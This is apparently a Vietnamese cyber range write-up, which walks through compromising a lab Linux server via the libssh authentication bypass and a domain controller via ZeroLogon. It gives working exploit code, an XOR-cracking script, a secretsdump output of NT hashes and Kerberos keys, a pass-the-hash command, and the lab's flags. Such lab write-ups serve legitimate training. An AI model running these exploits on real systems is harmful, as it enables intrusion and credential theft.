










+++
title = 'CyberRange Maximiliano'
date = 2026-03-31T10:15:23+07:00
draft = false
categories = ["redteam"]
series = ["Cyber Range"]
+++



## Thông Tin Chung

**Mục tiêu:** Tìm flag trên 2 target thuộc domain `hogwarts.local`.

| Mục tiêu     | IP Address       | Kỹ thuật/CVE                          | Flag                          |
|--------------|------------------|---------------------------------------|-------------------------------|
| Linux server | 192.168.125.10   | CVE-2018-10933 (libssh)               | `flag{wh0_needs_auth3ntication}` |
| Hogwarts DC  | 192.168.125.12   | CVE-2020-1472 (ZeroLogon) + Pass-the-Hash | `flag{cl1ck_th4t_l1nk}`    |

---

## Target 1: 192.168.125.10 (Linux Server)

### 1. Reconnaissance

```bash
nmap -sV 192.168.125.10
```

**Kết quả:**


```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu
2222/tcp open  ssh     libssh 0.8.1 (protocol 2.0)
```

Phát hiện **libssh 0.8.1** – phiên bản có lỗ hổng `CVE-2018-10933`.

---

### 2. Khai Thác libssh (CVE-2018-10933)

#### 2.1. Thông tin lỗ hổng

**CVE-2018-10933:** Authentication bypass trong libssh. Server không kiểm tra trạng thái authenticated trước khi mở channel.

#### 2.2. Exploit

```python
#!/usr/bin/env python3
import paramiko
import socket
import sys

host = sys.argv[1]
port = int(sys.argv[2])
cmd = sys.argv[3]

sock = socket.socket()
sock.connect((host, port))

transport = paramiko.Transport(sock)
transport.start_client()

message = paramiko.message.Message()
message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(message)

chan = transport.open_session()
chan.exec_command(cmd)

output = chan.recv(1024).decode()
print(output)
```

**Thực thi:**

```py
python3 exp.py 192.168.125.10 2222 "id"
```

**Kết quả:**


✅ **Thành công:** Shell root.

---

### 3. Lấy Flag

```bash
python3 exp.py 192.168.125.10 2222 "cat /root/flag.txt"
```



**Flag 1:**

```
flag{wh0_needs_auth3ntication}
```

---

### 4. Giải Mã File encrypted.txt

**File `instr.txt`:**



```
I've encrypted maximilian's credentials for the hogwarts domain using 
repeating key xor encryption, there's no way anyone will be able to find 
a 10-letter key...
```

**Giải mã `encrypted.txt`:**

```python
#!/usr/bin/env python3
import sys
from collections import Counter

def xor_repeating_key(data, key):
    """Decrypt XOR with repeating key"""
    return bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])

def find_key_length(data, max_len=20):
    """Find key length using Kasiski analysis and Hamming distance"""
    from statistics import mean
    
    def hamming_distance(b1, b2):
        return sum(bin(x ^ y).count('1') for x, y in zip(b1, b2))
    
    normalized = []
    for keylen in range(2, max_len + 1):
        # Lấy các block
        blocks = [data[i:i+keylen] for i in range(0, len(data) - keylen, keylen)]
        if len(blocks) < 4:
            continue
            
        distances = []
        for i in range(min(4, len(blocks)-1)):
            for j in range(i+1, min(4, len(blocks))):
                dist = hamming_distance(blocks[i], blocks[j])
                distances.append(dist / keylen)
        
        if distances:
            avg_dist = mean(distances)
            normalized.append((keylen, avg_dist))
    
    normalized.sort(key=lambda x: x[1])
    return [k for k, _ in normalized[:5]]

def find_key_for_position(data, pos, keylen):
    """Find key byte for specific position using frequency analysis"""
    # Lấy tất cả bytes ở vị trí pos
    bytes_at_pos = [data[i] for i in range(pos, len(data), keylen)]
    
    # Giả sử space (0x20) là ký tự phổ biến nhất trong plaintext
    counter = Counter(bytes_at_pos)
    most_common_byte = counter.most_common(1)[0][0]
    
    # Key byte = ciphertext byte XOR space
    key_byte = most_common_byte ^ 0x20
    
    # Thử các khả năng khác nếu space không đúng
    # Common English letters: e, t, a, o, i, n, s, h, r
    common_chars = [0x20, 0x65, 0x74, 0x61, 0x6f, 0x69, 0x6e, 0x73, 0x68, 0x72]
    best_key = key_byte
    best_score = 0
    
    for test_char in common_chars:
        test_key = most_common_byte ^ test_char
        decrypted = [b ^ test_key for b in bytes_at_pos[:50]]
        readable = sum(1 for b in decrypted if 32 <= b <= 126 or b == 10 or b == 13)
        score = readable / len(decrypted)
        if score > best_score:
            best_score = score
            best_key = test_key
    
    return best_key

def decrypt_with_key(data, key):
    """Decrypt and display result"""
    decrypted = xor_repeating_key(data, key)
    
    # Try to decode as text
    try:
        text = decrypted.decode('ascii', errors='ignore')
        # Check if it contains readable content
        if 'the' in text.lower() or 'and' in text.lower() or 'encrypted' in text.lower():
            return text, True
        return text, False
    except:
        return decrypted.hex(), False

def main():
    # Đọc file encrypted
    try:
        with open('encrypted.bin', 'rb') as f:
            data = f.read()
        print(f"[+] Loaded {len(data)} bytes from encrypted.bin")
    except FileNotFoundError:
        print("[!] File encrypted.bin not found. Run: python3 a.py 192.168.125.10 2222 'cat /root/encrypted.txt' > encrypted.bin")
        sys.exit(1)
    
    # Guess key length
    print("\n[*] Guessing key length...")
    possible_lengths = find_key_length(data)
    print(f"[+] Possible key lengths: {possible_lengths}")
    
    # Use key length 10 as hinted
    keylen = 10
    print(f"\n[*] Using key length: {keylen} (as per hint)")
    
    # Find each byte of the key
    print("[*] Finding key bytes...")
    key = bytearray()
    for i in range(keylen):
        key_byte = find_key_for_position(data, i, keylen)
        key.append(key_byte)
        print(f"  Key byte {i}: 0x{key_byte:02x} ({chr(key_byte) if 32 <= key_byte <= 126 else '?'})")
    
    print(f"\n[+] Full key: {key}")
    print(f"[+] Key as string: {key.decode('ascii', errors='ignore')}")
    
    # Decrypt
    print("\n[*] Decrypting...")
    decrypted = xor_repeating_key(data, key)
    
    # Write decrypted to file
    with open('decrypted.txt', 'wb') as f:
        f.write(decrypted)
    
    # Display decrypted text
    print("\n" + "="*60)
    print("DECRYPTED TEXT:")
    print("="*60)
    
    # Try to decode as text
    text = decrypted.decode('ascii', errors='ignore')
    print(text)
    
    # Save as text
    with open('decrypted_text.txt', 'w') as f:
        f.write(text)
    
    print("\n[+] Saved to decrypted.txt and decrypted_text.txt")
    
    # Look for credentials
    print("\n" + "="*60)
    print("SEARCHING FOR CREDENTIALS:")
    print("="*60)
    
    lines = text.split('\n')
    for line in lines:
        if any(keyword in line.lower() for keyword in ['user', 'pass', 'login', 'credential', 'maximilian', 'hogwarts']):
            print(f"[!] {line.strip()}")
    
    # Check if we found the key
    if 'maximilian' in text.lower():
        print("\n[+] Success! Found Maximilian's credentials!")
        
        # Extract credentials
        import re
        # Look for patterns like username:password or user=xxx pass=yyy
        patterns = [
            r'([a-zA-Z0-9_]+):([a-zA-Z0-9_!@#$%^&*]+)',
            r'user(?:name)?[=:\s]+([a-zA-Z0-9_]+).*?pass(?:word)?[=:\s]+([a-zA-Z0-9_!@#$%^&*]+)',
            r'login[=:\s]+([a-zA-Z0-9_]+).*?pass[=:\s]+([a-zA-Z0-9_!@#$%^&*]+)'
        ]
        
        for pattern in patterns:
            matches = re.findall(pattern, text, re.IGNORECASE)
            for match in matches:
                if len(match) == 2:
                    print(f"\n[!!!] CREDENTIALS FOUND: {match[0]}:{match[1]}")
    
    # Also try to find the key from the text
    if 'key is' in text.lower():
        import re
        key_match = re.search(r'key is (\w+)', text, re.IGNORECASE)
        if key_match:
            print(f"\n[+] The key mentioned in text: {key_match.group(1)}")

if __name__ == "__main__":
    main()
```

**Kết quả:**

```bash
python3 decrypt_xor.py
[+] Loaded 2515 bytes from encrypted.bin

[*] Guessing key length...
[+] Possible key lengths: [10, 20, 4, 8, 2]

[*] Using key length: 10 (as per hint)
[*] Finding key bytes...
  Key byte 0: 0x4a (J)
  Key byte 1: 0x70 (p)
  Key byte 2: 0x4d (M)
  Key byte 3: 0x55 (U)
  Key byte 4: 0x62 (b)
  Key byte 5: 0x68 (h)
  Key byte 6: 0x4c (L)
  Key byte 7: 0x68 (h)
  Key byte 8: 0x6e (n)
  Key byte 9: 0x6a (j)

[+] Full key: bytearray(b'JpMUbhLhnj')
[+] Key as string: JpMUbhLhnj

[*] Decrypting...

============================================================
DECRYPTED TEXT:
============================================================
I need to make sure I put a lot of random text in here to make it harder to decrypt the file :)
Aliquam vestibulum sapien consectetur dictum volutpat. Integer a porta purus. Nulla consectetur, magna id ultricies bibendum, mauris risus pulvinar turpis, a gravida magna risus sit amet arcu. Morbi molestie magna vitae lorem ullamcorper, sit amet volutpat quam vulputate. Phasellus at rutrum felis. Maecenas sapien augue, ullamcorper ac erat sit amet, gravida ultrices sapien. Maecenas eu purus sed sem dictum pharetra. Aliquam id eros et eros consectetur mollis a ac arcu. Nulla porta tincidunt ex.
Vestibulum sollicitudin tincidunt orci nec dapibus. In finibus, dui sit amet efficitur malesuada, elit nibh euismod elit, ut molestie massa nibh sed nisl. Morbi tempus tellus sed est luctus aliquam. Duis vitae purus at metus cursus dictum eu non dolor. Etiam aliquam auctor mattis. Proin tellus leo, dictum ut porttitor vel, efficitur in quam. Proin sit amet diam non sem imperdiet laoreet. Curabitur imperdiet dolor sit amet nulla fermentum, eget rhoncus nunc maximus. Integer nec volutpat enim. Pellentesque venenatis velit nunc, non ornare justo interdum sit amet. Cras sollicitudin sem in auctor volutpat. Etiam in rhoncus ante, ut bibendum neque. Fusce cursus ut quam ac pulvinar.
CREDENTIALS: maximilian: yLn99bHKBw
Quisque cursus, ante sed aliquam porta, tortor tellus interdum nunc, vitae dictum justo libero eget leo. Ut et odio id nibh consequat interdum vel sed mi. Morbi sit amet est mattis, tincidunt est nec, pulvinar est. Proin mi magna, feugiat et nisl non, vehicula laoreet metus. Vivamus eu vehicula dolor. Curabitur at diam aliquam, pretium turpis quis, euismod orci. Nullam arcu ipsum, dictum vitae ex vitae, fringilla hendrerit ex. Mauris ut urna vestibulum, eleifend felis eu, eleifend tellus. Phasellus ornare nulla quis scelerisque dictum. In in ipsum nulla. Mauris laoreet et mi vitae tincidunt. In id scelerisque quam.
Phasellus lobortis ullamcorper elit a rutrum. Mauris molestie finibus urna, sed placerat mauris convallis ut. Sed risus mauris, malesuada sed lorem ac, sollicitudin dictum odio. Phasellus justo urna, scelerisque eget ullamcorper a, rutrum a neque. Aliquam finibus ullamcorper orci, nec placerat lectus mattis vel. Praesent nec urna arcu. Donec dapibus nibh in mollis auctor. Nam gravida quis mauris accumsan egestas. Etiam et interdum metus, sit amet imperdiet lectus. Fusce eget faucibus metus, a rutrum libero. Pellentesque luctus est tellus, a volutpat leo dapibus sed.h

[+] Saved to decrypted.txt and decrypted_text.txt

============================================================
SEARCHING FOR CREDENTIALS:
============================================================
[!] CREDENTIALS: maximilian: yLn99bHKBw

[+] Success! Found Maximilian's credentials!
```

✅ Thu được credentials cho domain: `maximilian:yLn99bHKBw`

---

## Target 2: 192.168.125.12 (Windows Domain Controller)

### 1. Reconnaissance

```bash
nmap -sV 192.168.125.12 -p-
```

**Kết quả:**



Phát hiện đây là **Domain Controller** với domain `hogwarts.local`.

---

### 2. Enumerate Domain

Sử dụng credentials vừa tìm được:

```bash
rpcclient -U "maximilian%yLn99bHKBw" 192.168.125.12 -c "enumdomusers"
```

**Users phát hiện:**



---

### 3. Khai Thác ZeroLogon (CVE-2020-1472)

#### 3.1. Thông tin lỗ hổng

**CVE-2020-1472 (ZeroLogon):** Lỗ hổng trong Netlogon protocol cho phép attacker reset password của Domain Controller về rỗng.

#### 3.2. Exploit

```bash
git clone https://github.com/dirkjanm/CVE-2020-1472.git
cd CVE-2020-1472

python3 cve-2020-1472-exploit.py WIN2K8DCPLACEHO 192.168.125.12
```

**Kết quả:**



---

### 4. Dump Hashes

```bash
impacket-secretsdump -no-pass WIN2K8DCPLACEHO\$@192.168.125.12
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3a444e62784cd12d54a2ff97d43ad371:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:986249c5c91c69ebbcb26a8119f93897:::
svc.sortinghat:1113:aad3b435b51404eeaad3b435b51404ee:a6d8e10f0f163da4fb301023a388fc01:::
randuser0:1222:aad3b435b51404eeaad3b435b51404ee:f9ee8c83eeabb6ae01982beb486f0924:::
randuser1:1223:aad3b435b51404eeaad3b435b51404ee:f9ee8c83eeabb6ae01982beb486f0924:::
randuser2:1224:aad3b435b51404eeaad3b435b51404ee:f9ee8c83eeabb6ae01982beb486f0924:::
randuser3:1225:aad3b435b51404eeaad3b435b51404ee:f9ee8c83eeabb6ae01982beb486f0924:::
randuser4:1227:aad3b435b51404eeaad3b435b51404ee:f9ee8c83eeabb6ae01982beb486f0924:::
randuser5:1228:aad3b435b51404eeaad3b435b51404ee:f9ee8c83eeabb6ae01982beb486f0924:::
Admin:1234:aad3b435b51404eeaad3b435b51404ee:37d92a25efabc5569fb0f0d599db52b1:::
hogwarts.local\maximilian:1235:aad3b435b51404eeaad3b435b51404ee:61d43c7d8c15106098d6fe707698d5f5:::
WIN2K8DCPLACEHO$:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CHAMBEROFSECRET$:1233:aad3b435b51404eeaad3b435b51404ee:5e99049dc4377c0de06efc0994ffb6bd:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:b0fc244ec909f431d5f7584eb53b9ead3594d1c830c2e91768572de149792c48
Administrator:aes128-cts-hmac-sha1-96:99da98b1072499058b219de42a0bc0a6
Administrator:des-cbc-md5:c8e5239eb68c0be3
krbtgt:aes256-cts-hmac-sha1-96:07f469fab5eba13fd182c5a10a626bc9f060dc073af108d996b5f08c5973367f
krbtgt:aes128-cts-hmac-sha1-96:b6a71dfdb6c300c3e41010a8f7f4b040
krbtgt:des-cbc-md5:c76b5de929b6ad2a
svc.sortinghat:aes256-cts-hmac-sha1-96:ce31d439e5dda69c27f1b0d19269cc9ce85dad840397a6cc179566c4ef03a192
svc.sortinghat:aes128-cts-hmac-sha1-96:79fa9b7c8c46d8bf33f0646ae7f66777
svc.sortinghat:des-cbc-md5:49df8a1f1aefc1ea
randuser0:aes256-cts-hmac-sha1-96:9a6de0d9fde5c5747a6e0b9da59411e9ecc8fad1c3f5a5e7faf112d229cba13a
randuser0:aes128-cts-hmac-sha1-96:5973d14db91ff78e369991f1b2d8d4be
randuser0:des-cbc-md5:04a797ad97e516c8
randuser1:aes256-cts-hmac-sha1-96:5128474c39a2a96d1c63ea44268f7eaef432f5bea18d5b92d8403e2a37e818c4
randuser1:aes128-cts-hmac-sha1-96:148c1a813ed3bfb5e6c2dc4f0283fc24
randuser1:des-cbc-md5:897513e007fb4643
randuser2:aes256-cts-hmac-sha1-96:d16889b9e2e49676e07eff443a1f4543c45f1615d99dc771a836bebea2100295
randuser2:aes128-cts-hmac-sha1-96:443141c74c768928a034a623c2cefca8
randuser2:des-cbc-md5:68d5da7aa13e6be9
randuser3:aes256-cts-hmac-sha1-96:be888e4fb5ad1afd8139dd6002d2334d8b6dd3a76e892ceadfbed8247827b822
randuser3:aes128-cts-hmac-sha1-96:06064fa60a9cd34264f663eb1ddf14fd
randuser3:des-cbc-md5:4c1043944ce91580
randuser4:aes256-cts-hmac-sha1-96:7f7802d11c38d3c9c022fe6167ecd18afa3d86c3c289a673063a57cd3a7fab6a
randuser4:aes128-cts-hmac-sha1-96:abd556cb5fa9ac127cf6aa957487f6a8
randuser4:des-cbc-md5:e60e32b694575e46
randuser5:aes256-cts-hmac-sha1-96:2ad0960b20eecce472a27f25fe9388b7e63bea06b653cf59b889e5533912e295
randuser5:aes128-cts-hmac-sha1-96:512e1c6144a722122f155ba521f80c62
randuser5:des-cbc-md5:08b3bc254a89a291
Admin:aes256-cts-hmac-sha1-96:90330b4f1f2e81abe51ac7e34e76d268c950abaa75924cc229fcc34127870fac
Admin:aes128-cts-hmac-sha1-96:ff2b4117d2ebef22562d5764444a4319
Admin:des-cbc-md5:15b3046726f82f8c
hogwarts.local\maximilian:aes256-cts-hmac-sha1-96:8abf1fc29a68dbaa0221d5a17a9f5a45a180f2dd6811968d667017a88da31af2
hogwarts.local\maximilian:aes128-cts-hmac-sha1-96:2808e556d3388318d872b975075d2830
hogwarts.local\maximilian:des-cbc-md5:46bf76da6d258fef
WIN2K8DCPLACEHO$:aes256-cts-hmac-sha1-96:3465f9d85a26dfbd8c9ba4f1fb82e381171a4e6f23bea19225b23feb092f6e8a
WIN2K8DCPLACEHO$:aes128-cts-hmac-sha1-96:cd242fc5b7be019c515f23e71c4271f5
WIN2K8DCPLACEHO$:des-cbc-md5:91cde91516d6a401
CHAMBEROFSECRET$:aes256-cts-hmac-sha1-96:3a98817fad0080139a8b8692ced639ca4f0092839b620ed5df52b864453229ca
CHAMBEROFSECRET$:aes128-cts-hmac-sha1-96:310a3b3718f06be7891fa06831abef9f
CHAMBEROFSECRET$:des-cbc-md5:bf8f6458fe5880c2
[*] Cleaning up...                                                        
```

---

### 5. Pass-the-Hash

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:3a444e62784cd12d54a2ff97d43ad371 hogwarts.local/Administrator@192.168.125.12
```

**Kết quả:**



✅ **Shell SYSTEM** trên Domain Controller.

---

### 6. Lấy Flag 



**Flag 2:**

```
flag{cl1ck_th4t_l1nk}
```

---

## Kết Luận

### Attack Chain

```
[Linux] CVE-2018-10933 → Root Shell
         ↓
[Linux] Giải mã file → Credentials: maximilian:yLn99bHKBw
         ↓
[Windows DC] Enumerate domain với credentials
         ↓
[Windows DC] ZeroLogon (CVE-2020-1472) → Reset DC password
         ↓
[Windows DC] Secretsdump → Hash Administrator
         ↓
[Windows DC] Pass-the-Hash → SYSTEM Shell
         ↓
[Windows DC] Flag found!
```